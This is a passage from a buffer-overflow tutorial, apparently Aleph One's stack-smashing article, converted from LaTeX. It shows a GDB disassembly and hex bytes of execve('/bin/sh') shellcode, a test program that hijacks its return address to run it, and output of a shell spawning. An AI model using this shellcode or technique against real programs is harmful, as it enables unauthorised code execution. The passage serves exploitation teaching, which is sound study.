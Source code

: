 \documentclass[10pt]{article}
\begin{document}
{{\begin{verbatim}
There is absolutely no warranty for GDB; type 
"show warranty" for details.  

GDB 4.15 (i586-unknown-linux), Copyright 1995 
Free Software Foundation, Inc...

(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 :    pushl  %ebp
0x8000131 :    movl   %esp,%ebp
0x8000133 :    jmp    0x800015f 
0x8000135 :    popl   %esi
0x8000136 :    movl   %esi,0x8(%esi)
0x8000139 :    movb   $0x0,0x7(%esi)
0x800013d :    movl   $0x0,0xc(%esi)
0x8000144 :    movl   $0xb,%eax
0x8000149 :    movl   %esi,%ebx
0x800014b :    leal   0x8(%esi),%ecx
0x800014e :    leal   0xc(%esi),%edx
0x8000151 :    int    $0x80
0x8000153 :    movl   $0x1,%eax
0x8000158 :    movl   $0x0,%ebx
0x800015d :    int    $0x80
0x800015f :    call   0x8000135 
0x8000164 :    das
0x8000165 :    boundl 0x6e(%ecx),%ebp
0x8000168 :    das
0x8000169 :    jae    0x80001d3 <__new_exitfn+55>
0x800016b :    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.

(gdb) x/bx main+3
0x8000133 :     0xeb

(gdb)
0x8000134 :     0x2a

(gdb)
.
.
.
\end{verbatim}
}

\begin{lstlisting}[caption=testsc.c,frame=single,frameround=tttt,breaklines=true]
char shellcode[] =
"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

void main() 
{
   int *ret;
   ret = (int *)&ret + 2;

   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc testsc.c
[aleph1]$ ./testsc
$ exit
[aleph1]$
\end{verbatim}

It works! But there is an obstacle. In most cases we'll be trying to overflow a character buffer. As such any null 
bytes in our shellcode will be considered the end of the string, and the copy will be terminated. There must 
be no null bytes in the shellcode for the exploit to work. Let's try to eliminate the bytes (and at the same 
time make it smaller).

}
\end{document}
